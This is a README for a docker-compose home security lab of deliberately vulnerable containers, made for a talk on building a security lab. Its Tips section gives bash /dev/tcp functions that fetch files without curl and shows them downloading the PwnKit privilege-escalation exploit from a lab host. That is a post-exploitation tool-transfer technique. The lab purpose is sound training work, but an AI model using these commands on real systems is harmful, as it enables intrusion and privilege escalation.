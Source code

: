 ## Intro
This docker-compose setup allows you to easily spin up a security testing/research environment.

This was done for our presentation "Do It Yourself: Building a Security Lab At Home" in January 2021.

The main purpose is to create a separate network and containers that can be referenced by name.

This also allows you to have multiple containers listening on the same port to avoid confusing port mappings.

## Updates
package for vul-linux & win10 ok.
but vagrant up for win10 still not working got WinRM issue as below.  
![Alt text](./images/Screenshot%20from%202023-08-20%2006-08-09.png "a title")

## FAST TESTING WIN10

```bash
mv docker-compose.yml docker-compose.yml.ori
mv docker-compose-win10.yml docker-compose.yml
docker-compose up
```

## Usage

Simply clone this repository and run:

``
docker-compose up -d
``

Be certain to add the following to your /etc/hosts file:

```
# Vulhub lab
10.1.1.5        shellshock
10.1.1.6        jenkins
10.1.1.7        phpmyadmin
10.1.1.8        mysql
10.1.1.9        telnetserver
10.1.1.10       kali
10.1.1.11       solr-log4j

```

Modify for your own needs! Thanks to Vulhub: https://github.com/vulhub/vulhub

## Tips

To use bash to retrieve a file via HTTP create this function (just copy and paste this into a terminal):

```
_get ()
{
  IFS=/ read proto z host query <<< "$1"
  exec 3< /dev/tcp/$host/80
  {
    echo GET /$query HTTP/1.1
    echo connection: close
    echo host: $host
    echo
  } >&3 
  sed '1,/^$/d' <&3 > $(basename $1)
}

```

For binary files:

```
__curl() {
  read proto server path <<<$(echo ${1//// })
  DOC=/${path// //}
  HOST=${server//:*}
  PORT=${server//*:}
  [[ x"${HOST}" == x"${PORT}" ]] && PORT=80

  exec 3<>/dev/tcp/${HOST}/$PORT
  echo -en "GET ${DOC} HTTP/1.0\r\nHost: ${HOST}\r\n\r\n" >&3
  (while read line; do
   [[ "$line" == $'\r' ]] && break
  done && cat) <&3
  exec 3>&-
}
```

Then you can use it like this:

```$ _get http://10.1.1.14/PwnKit```

```$ __curl http://10.1.1.14/PwnKit```
